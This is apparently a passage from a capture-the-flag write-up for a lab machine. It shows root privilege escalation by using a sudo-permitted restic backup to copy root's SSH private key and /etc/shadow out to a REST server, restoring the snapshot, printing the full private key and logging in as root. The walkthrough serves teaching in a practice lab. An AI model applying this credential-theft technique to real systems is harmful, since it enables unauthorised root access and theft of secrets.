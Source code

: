 Of course, we can also do this with the root flag. Even better, we can grab root's id_rsa ssh key:

```
sudo restic backup -r rest:http://127.0.0.1:1234/ /root/.ssh/id_rsa 
```

Now, we can use the same method to extract it:

```
restic -r /tmp/restic/snapshots
ID        Time                 Host        Tags        Paths
------------------------------------------------------------------------
e88d1a35  2020-03-04 13:49:33  bolt                    /etc/shadow            
39461c2b  2020-03-04 13:58:12  bolt                    /root/root.txt       
525bab2c  2020-03-04 14:03:15  bolt                    /root/.ssh/id_rsa    
------------------------------------------------------------------------
3 snapshots     

restic -r /tmp/restic restore 525bab2c --target /tmp/restore

cat id_rsa
-----BEGIN RSA PRIVATE KEY-----                                                                                      
MIIEowIBAAKCAQEAmiGiXpswTyHhjgC55jHRWlGX1asEMyDFfkVwhuNohv/4cQKm     
cJB/3psQocosq+GMh9Y/uRPUgMcDnrTaNYOdkPS+QLd8vcFKSwSewH1w4/AYLuci
4k71qYsJlkcS2Pb0PqEcpodmXf4OBdTCiCCnjgGhOcvPpKMSCb1vy2Yo+A+eHzKp
1S48LgJRLKU1sGe0KE4MC8g7qpF7NSKOCW69z5KaoopQA3jPxnW17WE9PdGZQvqX
4/Mf9DGdeUrejRlX0BI2EGiZhPKwwKxqIHLRpw4pR4+OjR1sOkAA7UWtMYn/3cs+       
IS3L75/i5Qsr0cMCtZ/hQAKtjpPoCCe1qHp7CQIDAQABAoIBAFlvYtQaoLGKK2NG         
sJgOGDicV8o37bvtLCvVBzJ+Ck0rgnGw4/s1Hb2BpOj8c2dY/T5k55zxEMGYuVUC
BAxBTtCp8yuCTPOekQluqN9w6myZCK9Ol0NSJeI3N1zn6NvUkG0293T55EBuBp0D
k82BhTg1YeQzi00xAmp8bb5MjUFCiCbSFH1MMpY/9itg1b3mqx7UlyDldMM9UdKH          
HS9aZmAzY5/U6wEtJi4mx3QIoVahytMgcxd7qoicCYyVm73HFQsZ58L+5QflygH4            
dpbptPOnNmLUkWFXcK3bmlmrEyuafS6z68oDFeAZz8Dg2D2qXWfhdlN4GVstlxSI    
skH5sAECgYEAySOp7KOZJVpstF8zjn+/OZowEF4iSHnaGAX64B6GgWwXQURn3wVq     
tlqDO5m5vIexe2tyFDSVe5otWtzQvbPNkjpD7/kglGTbT9PCU/Dgb5pTmOxBPi9a
1W8+q7lwiXLIRb4NB+BqDz0yI924BnZt9rukzm9650Rrbala0HZxhIECgYEAxCux
RQUzgSx7YdzThvB8sAzQJj2gNAbwEA9Y56I0pQLvTNoGQY8V8IYBrlvW935kLfcf
xz8j5VNt1BizDQjG8j5FfVcU6VE98/OMgn4XKd6nl9sOoQBXzssjUF+3AIhn5DsK
Q/IymTZEmhfGAt9k6dE4WH8qffea/E7qJY+pkokCgYAdatLiYjb2yJfXdYkD0Vk1
YoCfFDVtZizokI9VkgFYEmgASrHqY09tJiXFZMFOeoYRp/BCVkJ6ll0Fyf/Zjt+F
AHKJOWVzbqDItw7X2gXpLKgHWJ5eKuzdBG0lDnUQFTKHSLl9Kmw4mFmp9zZ/83g3
us/qxVEzW8Vef4Nhs8D8gQKBgDtsMMqDhNKAMu+2AK1Dc8GwX+z1he28nEOBIqEn
1WKWvP4+nN6HBVJShXfXggp+UsJJtWqZiboRx5cT1EkCe6Etk8cf9cmnPmkDQXDV
2RZpx8KMLKZAgFi31/6kv759k1rjN3zVhNY8RhOXV/fOy7a4FaVY//ogYuZC0VKH          
bgphAoGBAKGyJQe/b6rUkpzvIBxbGt9Hw1kpLr07VCdPQb1MCdCU4l+mlDD5NBN3            
mzygp6MTi+TvN3PhxlfAmUPbz0qw+3aX95pt2cQ492wLOe+RsVsKtvDTgH/2+DUe           
2qnb+Jd6ERs3jmBeuuavC2O5ajhyLt1xL3uF5UVpoenCYlYuOvL4                                                                 
-----END RSA PRIVATE KEY-----  
```

Now, we can just ssh in with it:

```
ssh -i id_rsa root@registry.htb

root@bolt:~# whoami                                                                                                  
root  
```



